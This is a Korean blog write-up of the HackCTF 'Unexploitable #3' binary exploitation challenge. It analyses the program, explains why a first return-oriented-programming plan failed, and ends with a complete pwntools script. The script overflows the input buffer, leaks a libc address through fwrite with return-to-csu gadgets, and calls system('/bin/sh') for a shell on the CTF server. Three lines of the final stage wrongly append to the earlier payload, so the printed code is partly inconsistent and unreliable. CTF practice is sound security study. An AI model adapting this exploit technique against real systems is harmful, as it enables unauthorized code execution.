 ```yaml
---
layout: post
title:  "HackCTF Unexploitable #3 write-up"
date:   2020-03-21 19:45:55
image:  hackctf_unex3.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled.png)

NX비트말곤 딱히 걸려있는게 없다.

<br>
**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%201.png)

Unexploitable 의 3번째 문제로서 동일한게 한번 입력을 받고 종료된다.

<br>
**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%202.png)

메인을 보면, fwrite와 fgets 가 끝이다. fwrite를 이용하여 libc leak을 하면 될 것이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%203.png)

또한 gift 라는 함수가 있는데 fwrite함수가 있다. 어셈블리로보면

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%204.png)

요렇게 되어있다. 어떻게 사용하면 될지 일단 차차 생각해보자.

<br><br>

### 2. 접근방법

---

fgets로 충분히 리턴주소를 덮을수 있다. 그렇다면 fwrite를 이용해 leak을 일으킬라면 4개의 인자를 처리할 수 있는 가젯이 필요하다. 하지만 역시 그런 이쁜 가젯은 현재 존재하지 않는다.

현재 csu_ini 함수가 존재하는데, 이를 이용한다고 쳐도 3개의 인자만 처리가능 할 뿐, 나머지 하나인 rdx 관련 인자를 처리불가능하다. 그럼 혹시 아까 gift 함수를 괜히 준게 아닐꺼 같다는 생각이든다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%204.png)

0x400658 주소를 보면 mov rcx, [rdi] 가 있다. 이부분을 이용하여 rcx를 이용하면 될 것이다.

현재 가젯에 pop rdi; ret; 는 존재하기 때문에 먼저 rdi에 원하는 값을 넣고, gitf 함수의 가젯을 이용하면 rcx에 아까 넣어둔 rdi 값이 들어갈 것이다.

<br>

- **첫번째 시나리오**
    1. pop rbp; ret; 를 이용해서 .bss 영역에 /bin/sh 저장하기
    2. libc 주소 leak을 해야함 => fwrite() 함수이용할것임
    2.1 RTC 를 이용해서 rdi, rsi, rdx 레지스터에 3개 인자를 넣고
    2.2 마지막 RTC의 ret를 pop rdi;ret로 다시 가게함 => 여기서 rdi에 rcx에 넣을 값 다시 저장
    2.3 gift함수의 mov rcx, [rdi];ret; 를 이용해서 rcx(stdout) 저장
    2.4 이를 이용하여 fgets 주소 leak하기
    3. leak된 주소를 이용하여 libc_base 주소를 구하고 ROP 진행

기존에 Unexploitable 2 에서 진행했던 방법대로 처음에 진행을 했었다. 하지만 어떤 이유인지 자꾸 에러가 발생하여서 디버깅을 통해 확인을 해보았다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%205.png)

pop rbp; ret; 를 이용하여 bss 영역에 "/bin/sh" 문자열을 잘 저장하였고 gift함수의 가젯을 이용하여 rcx에 stdout_got 주소를 잘 저장하였다. 따라서 총 4개의 인자를 처리할 수 있는 세팅이 완료됬고, csu의 " call [r12 + rbx*8] "이 진행되어 원래대로라면 fwrite함수가 호출되어 fgets의 주소가 leak되야 한다.

하지만 현재 rcx에 stdout_got가 들어가 있긴 하지만, "pop rbp;ret;" 가 진행되고 setvbuf, fwrite, 함수를 건너뛰고 바로 main+98로 다시 갔기 때문에 stdout이 한번도 사용되지 않아 got에 실 주소가 들어가있지 않고 위 사진처럼 0x400743주소가 들어가 있다.

<br>

따라서 " call [r12 + rbx*8] " 이 실행됬을 때 에러가 나는 것이다. 결국 다른 시나리오를 이용해야한다.

<br>

- **두번째 시나리오**
    1. 바로 libc 주소 leak하기
        - 첫번째 ROP를 진행할때는 이미 위에 setvbuf와 fwrite가 실행된 상태이므로 stdout_got에 실제 주소가 들어가 있음. 따라서 csu가젯과 gift 가젯을 이용하여 rcx에 stdout_got주소를 첫번째 시나리오와 동일하게 삽입하면 됨
        - 그런뒤 다시 main으로 ret하게 만듬
    2. fgets를 이용하여 bss영역에 /bin/sh 삽입
    3. pop rdi;ret 가젯을 이용하여 /bin/sh 문자열이 존재하는 bss 영역을 rdi에 저장하고 system함수 호출

두번째 시나리오대로 코드를 짜면 정상적으로 쉘이 떨어진다.

<br><br><br>

### 3. 풀이

---

최종익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3034)
#p=process("./Unexploitable_3")
e=ELF("./Unexploitable_3")
#gdb.attach(p)

bss=0x601038

gadget_1=0x40073A # pop rbx,rbp,r12,r13,r14,r15,ret;
gadget_2=0x400720 # mov rdx,r13; mov rsi,r14; mov esi,r15d; call [r12+rbx*8]; add rbx,1; cmp rbx,rbp 
gadget_3=0x400658 # mov rcx,[rdi]; ret;
gadget_4=0x400743 # pop rdi; ret;

p.recvuntil("you!\n")

payload2 = "A"*0x18
payload2 += p64(gadget_4)
payload2 += p64(0x601050) # for rcx
payload2 += p64(gadget_3)
payload2 += p64(gadget_1)
payload2 += p64(0) # rbx
payload2 += p64(1) # rbp
payload2 += p64(e.got['fwrite']) # r12
payload2 += p64(6) # r13
payload2 += p64(1) # r14
payload2 += p64(e.got['fwrite']) # r15
payload2 += p64(gadget_2)
payload2 += p64(0)
payload2 += p64(0) #rbx
payload2 += p64(1) #rbp
payload2 += p64(0) #r12
payload2 += p64(0) #r13
payload2 += p64(0)  #r14
payload2 += p64(0) #r15
payload2 += p64(0x40065f)
pause()
p.sendline(payload2)

fwrite_addr=u64(p.recv(6)+"\x00\x00")
log.info(hex(fwrite_addr))
libc_base=fwrite_addr-0x06e6e0

payload3 = "A"*0x18
payload2 += p64(gadget_4)
payload2 += p64(0x601060) # for rcx
payload2 += p64(gadget_3)
payload3 += p64(gadget_1)
payload3 += p64(0) # rbx
payload3 += p64(1) # rbp
payload3 += p64(e.got['fgets']) # r12
payload3 += p64(libc_base+0x3c48e0) # r13
payload3 += p64(8) # r14
payload3 += p64(bss) # r15
payload3 += p64(gadget_2)
payload3 += p64(0)
payload3 += p64(0) #rbx
payload3 += p64(1) #rbp
payload3 += p64(0) #r12
payload3 += p64(0) #r13
payload3 += p64(0) #r14
payload3 += p64(0) #r15
payload3 += p64(gadget_4)
payload3 += p64(bss)
payload3 += p64(libc_base+0x045390)

p.recvuntil("you!\n")
p.sendline(payload3)
p.send("/bin/sh\x00")
p.interactive()
```
<br><br>

### 4. 몰랐던 개념

---

방법은 알았지만, stdout_got 때문에 삽질을 꽤 오래했다. stdout, stdin도 libc에 wrapping되어있는 함수인것을 이제 알았다. 따라서 해당 함수들도 plt와 got가 존재한다.